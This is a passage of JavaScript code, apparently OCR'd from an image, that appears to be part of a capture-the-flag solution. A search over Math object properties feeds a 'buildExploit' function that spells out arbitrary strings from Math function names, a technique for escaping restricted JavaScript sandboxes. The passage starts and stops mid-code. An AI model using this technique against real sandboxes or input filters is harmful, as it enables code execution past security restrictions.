 ``` js
          let newPath = [`Math.${key}`, ...path]
          if (value === target) {
            return newPath
          }

          if (newPath.length >= 10) return

          if (!visited.has(value)) {
            visited.add(value)
            queue.push([newPath, value])
          }
        }
      }
    }
  }
}

function buildExploit(arrName, content) {
  let ans = []
  let currentIndex = 0
  let codeResult = ''

  for(let i=0; i<5; i++) {
    addFunction(`${arrName}.pop`)
  }

  const findMathName = (index, char) => 
    findTargetFromScope(Math, item => item.name.at(index) === char, 'Math')
  
  for(let char of content) {

    // if we can find it in the Math for the current index, use it
    let result = findMathName(currentIndex, char)
    if (result) {
      addFunction(`${result}.name.at`)
      addFunction(`${arrName}.push`)
      currentIndex++
      continue
    }

    const mapping = [
      ['Math.LN2.valueOf'], // 0
      ['Math.LOG2E.valueOf'], // 1
      ['Math.E.valueOf'], // 2
      ['Math.PI.valueOf'], // 3
    ]

    // try to find Math.fn[i] == char
    let found = false
    for(let i=0; i<mapping.length; i++) {
      result = findMathName(i, char)
      if (result) {
        addFunction(mapping[i][0])
        addFunction(`${result}.name.at`)
        addFunction(`${arrName}.push`)
        currentIndex++
        found = true
        break
      }
    }

    if (found) {
      continue
```
